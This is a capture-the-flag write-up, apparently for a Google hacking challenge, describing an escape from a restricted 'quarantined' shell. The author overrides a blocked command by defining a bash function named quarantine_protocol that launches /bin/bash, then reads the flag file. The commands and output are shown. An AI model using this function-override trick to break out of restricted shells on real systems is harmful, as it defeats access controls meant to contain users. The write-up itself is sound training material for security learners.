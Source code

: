 Unfortunately, most commands are restricted by the "sandboxed shell" environment we are in:

```shell
~ $ test
command blocked: test
check completions to see available commands
~ $ $(test)
command blocked: $(test)
check completions to see available commands
~ $ `test`
command blocked: `test`
check completions to see available commands
```

Our duty, if it wasn't clear, is to escape this quarantined shell and find the flag.

A few commands caught my attention, as you don't typically see them every day. To name some:

```shell
_dnr_toolkit
coproc
quarantine
quarantine_protocol
[...]
```

I had high expectations from `coproc` and `time` but it turned out to be a dead-end.

We can't run these commands but, specifically for `quarantine` and `quarantine_protocol`, I wonder what would happen if the system couldn't find them...

From my Systems interviews, I remembered the priority of shell commands:

> Aliases > Shell reserved words > Functions > Built-in commands > "File system" commands

So, what if we defined a function named `quarantine` or `quarantine_protocol`? The `function` keyword is not restricted, fortunately!

After a few iterations, I came up with this:

```shell
~ $ function quarantine_protocol { /bin/bash; }
~ $ ls
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
user@NSJAIL:/home/user$ id
uid=1000(user) gid=1000(user) groups=1000(user)
```

Bingo 🙂 As it turns out, the flag is in `/`.

```shell
user@NSJAIL:/home/user$ cat /flag
https://h4ck1ng.google/solve/**REDACTED**
```

## EP003 - Red Team
